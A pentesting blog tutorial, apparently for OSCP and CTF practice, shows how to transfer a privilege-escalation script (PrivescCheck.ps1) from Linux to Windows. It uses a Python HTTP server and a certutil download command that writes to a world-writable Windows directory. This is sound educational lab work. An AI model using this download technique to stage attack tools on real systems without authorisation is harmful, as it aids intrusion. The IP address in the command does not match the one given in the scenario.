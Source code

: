 ```yaml
---
layout: post
title: 'File Transfers - Part 2: Linux To Windows'
date: '2022-10-22 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, windows, oscp, python, file-transfer, pentesting, code, tutorial, ctf]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

# Linux to Windows File Transfer

In this tutorial, we will cover the use of `certutil.exe` for transferring a file from Linux to a Windows system.

## Scenario

We have a Windows and a Linux system connected to the same local network.

UBUNTU LINUX - 192.168.56.103<br>
WINDOWS 10 - 192.168.56.104

- We want to transfer the file `PrivescCheck.ps1` from LINUX to the WINDOWS system

![file-to-transfer](/assets/img/file-transfers-2/file-to-transfer.png)

- We will transfer the file to `C:\Windows\Tasks` on WINDOWS, since our fresh WINDOWS 10 install gives members of the **Authenticated Users** group write permissions on this directory, and it is currently empty.

![icacls-tasks](/assets/img/file-transfers-2/icacls-tasks.png)
<br>
![empty-dir](/assets/img/file-transfers-2/empty_dir.png)

In order to transfer a file FROM a Linux machine, we need to make it accessible to a remote machine. 
There are a number of ways we can do this. However, for this tutorial we will be using the **Python HTTP Server**.
We covered how to do this in [File Transfers: Part 1](https://dev-0x0.github.io/posts/file-transfers).

## Transferring the File

On our Linux system, we serve the file using the **Python HTTP Server.**

![serve-file](/assets/img/file-transfers-2/serve-file.png)

There are multiple ways we can transfer the file to the Windows system. It's important to know the different methods you can use, as sometimes a system has been configured such that some options are unavailable to you. Therefore, it's good to have as many tools in your toolkit as possible. In this tutorial, we will use the Windows `certutil` tool.

### Certutil.exe

According to [Microsoft](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil), "Certutil.exe is a command-line program, installed as part of Certificate Services". It is generally installed on Windows systems by default. However, we can use **certutil** to transfer files using the following command from our WINDOWS system. Providing a specific download location at the end of the command is generally optional, but may be necessary in certain situations.

`certutil -urlcache -split -f http://192.168.56.102:8000/PrivescCheck.ps1 [DOWNLOAD LOCATION]`
![certutil](/assets/img/file-transfers-2/certutil.png)

Listing the directory on WINDOWS, we can see that the file transferred successfully.

Looking at our **Python HTTP Server** on Linux, we can see the GET request that was made by **certutil**.
Sometimes there are two requests, that's okay.
![get-req1](/assets/img/file-transfers-2/get-req1.png)

## Conclusion

`Certutil.exe` is a very useful tool for file-transfers to Windows systems. Hopefully if you're reading this,
you found something of use here. Please check out the other [File-Transfer tutorials](https://dev-0x0/tags/file-transfer/) for more. Thanks for reading!









